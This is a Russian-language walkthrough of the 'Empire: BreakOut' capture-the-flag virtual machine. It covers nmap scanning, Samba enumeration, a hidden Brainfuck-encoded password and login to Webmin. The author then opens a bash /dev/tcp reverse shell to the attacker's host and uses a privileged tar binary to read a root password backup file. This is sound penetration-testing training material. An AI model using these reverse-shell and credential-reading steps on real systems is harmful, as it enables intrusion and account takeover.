


Краткая информация
BreakOut — виртуальная машина легкого уровня сложности. Является частью серии виртуальных машин "Empire", разработанной icex64 & Empire Cybersecurity. Лаборатория достаточно простая, она не требует глубочайших знаний в области кибербезопасности и хакинга. На этой оптимистичной ноте переходим к прохождению машины.
Прохождение
Первым делом я узнал свой IP адрес.Для этого ввёл в теминал команду "ifconfig eth0". Мой IP адрес: 10.0.2.6.С помощью команды "sudo netdiscover -r 10.0.2.0/24" я узнал обо всех устройствах в моей сети. Проанализировав свою сеть и отключив лишнее, узнал IP адрес цели. IP адрес цели: 10.0.2.9.
Я начинаю этап сканирования. Первым делом найду все открытые порты. Для этого использую инструмент nmap. Использую команду "sudo nmap -sS -sV -vvv -p- -T4 -oA ./Scans/NmapFirstScan -O 10.0.2.1" и получаю результаты сканирования:
Для себя я выделил следующее:
- MAC адрес: 08:00:27:F9:52:FC (Oracle VirtualBox virtual NIC)
- Предполагаемая ОС: Linux 4.X|5.X
- Открытые порты и запущенные сервисы:
- 80/tcp http 64 Apache httpd 2.4.51 ((Debian)):
С помощью gobuster были найдены следующие директории : /manual
Результат предварительного исследования: скорее всего, это просто запущенный сервер - 139/tcp netbios-ssn Samba smbd 4.6.2:
Samba smbd 4.6.2 находится в списке уязвимых к cve-2017-7494 (https://www.exploit-db.com/exploits/42084)
Результат: Я не могу это использовать, так как нет некоторых нужных данных: - 445/tcp netbios-ssn Samba smbd 4.6.2
- 10000/tcp http MiniServ 1.981 (Webmin httpd):
На этом порту расположена форма для входа на сервер: - 20000/tcp http MiniServ 1.830 (Webmin httpd):
На этом порту расположена форма для входа на сервер:
- 80/tcp http 64 Apache httpd 2.4.51 ((Debian)):
Моей следующей целью является поиск логинов и паролей. Для этого необходимо проанализировать веб-сайты.
- Анализ начну со страницы "http://10.0.2.9:80/":
- Файл "robots.txt" отсутствует;
- Директории не найдены;
- В исходном коде страницы был спрятан комментарий:
" don't worry no one will get here, it's safe to share with you my access. Its encrypted :) ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++. p"
Читателю разобраься в дешифровке это самостоятельно, так как это очень увлекательно и хорошее упражнение
На 139 порту запушен сервис Samba. Для анализа этого сервиса используется утилита enum4linux. Утилита нашла возможное имя пользователя - "cyber":
Итак, у меня есть данные возможного пользователя: cyber - .2uqPEfj3D<P'a-3 Пробую войти на сайт. У меня это получилось:

Следующим шагом идет анализ сайта. Необходимо пройтись по страницам, посмотреть исходный код, поискать иязвимости в базах данных.
На начальной странице красуется маленький значок терминала:
В этом теминале я обладаю крайне низкими привелегиями. Надеюсь, после использования реверс шелла все измениться. Чтобы использовать реверс шелл, необходимо на своей машине поставить netcat в режим обидания подключений. Для этого
испооьзую команду "nc -nlvp 1234", а на машине жертвы ввести команду "bash -i >& /dev/tcp/10.0.2.6/1234 0>&1". Это простейший вид реверс шелла, любой современный антивирус в момент его обнаружит.

Я получил Reverse Shell !!! В пользовательской директории /home/cyber находился первый флаг (если вы повторяли, то без труда до него доберетесь или смотрите мои черновики здесь).
Следующий этап - повышение привелегий. Это очень важный этап при пентесте, так как именно права суперпользователя дают нам неограниченные ресурсы.Повышение привелегий начинается со сбора некоторой информации об системе.
Результаты моего сбора:
- Версия ядра: 5.10.0-9-amd64;
- OS: Debian;
- История пустая;
- Команда sudo отсутствует;
- Я смог прочитать файл /etc/passwd (passwd), но не могу записывать;
- Биты suid найдены в следующих файлах:
- /usr/bin/umount
- /usr/bin/passwd
- /usr/bin/su
- /usr/bin/gpasswd
- /usr/bin/mount
- /usr/bin/fusermount
- /usr/bin/newgrp
- /usr/bin/chfn
- /usr/bin/chsh
- /usr/lib/openssh/ssh-keysign
Ни один из SUID битов не дал мне root (полезный сайт). Версия ядра уязвима к эксплоиту "Dirty Pipe", однако у меня он не сработал. Кто знает, может это я криворукий. В надежде собрать еще больще информации, я доставил на уязвимую машину средство автоматического повышения привелегий "linuxenum". Также я заметил резервную копию с именем ".old_pass.bak"(/var/backups/.old_pass.bak). Какое говорящее название!!! В домашней директории пользователя есть архив Tar, который может читать файлы. Алгоритм моих действий:
- ./tar -cf pass.tar /var/backups/.old_pass.bak
- tar -xf pass.tar
- cat /var/backups/.old_pass.bak
С линукс вы должны быть знакомы!!!Мы же хацкеры!!! В общем, этот алгоритм помог мне получит заветного root!!!В директории /root находился заветный второй флаг.